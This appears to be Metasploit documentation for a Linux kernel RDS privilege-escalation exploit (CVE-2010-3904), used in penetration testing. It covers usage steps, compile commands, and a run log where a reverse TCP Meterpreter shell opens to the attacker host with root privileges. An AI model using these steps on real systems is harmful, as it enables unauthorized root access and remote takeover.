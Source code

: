 ## Description

  This module exploits a vulnerability in the `rds_page_copy_user` function
  in `net/rds/page.c` (RDS) in Linux kernel versions 2.6.30 to 2.6.36-rc8
  to execute code as `root` (CVE-2010-3904).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora 13 (i686) with kernel version 2.6.33.3-85.fc13.i686.PAE
  * Ubuntu 10.04 (x86_64) with kernel version 2.6.32-21-generic


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: ```use exploit/linux/local/rds_rds_page_copy_user_priv_esc```
  4. Do: ```set SESSION [SESSION]```
  5. Do: ```check```
  6. Do: ```run```
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading a pre-compiled binary.


## Compiled Executables

The module makes use of two pre-compiled exploit executables (`rds.x86` and `rds.x64`),
to be use when `gcc` is not available on the target host for live compiling, or
`COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.xz):

```bash
./x86_64-linux-musl-gcc -o rds.x64 -pie -static rds.c
./i486-linux-musl-gcc -o rds.x86 -pie -static rds.c
```


## Scenarios

  ```
  msf5 > use exploit/linux/local/rds_rds_page_copy_user_priv_esc
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/rds_rds_page_copy_user_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.zEAOL.c' (7282 bytes) ...
  [*] Writing '/tmp/.kBTWC7E' (237 bytes) ...
  [*] Launching exploit...
  [*] Sending stage (853256 bytes) to 172.16.191.149
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.149:40103) at 2018-05-03 08:52:59 -0400
  [+] Deleted /tmp/.zEAOL.c
  [+] Deleted /tmp/.zEAOL
  [+] Deleted /tmp/.kBTWC7E

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.149
  OS           : Ubuntu 10.04 (Linux 2.6.32-21-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

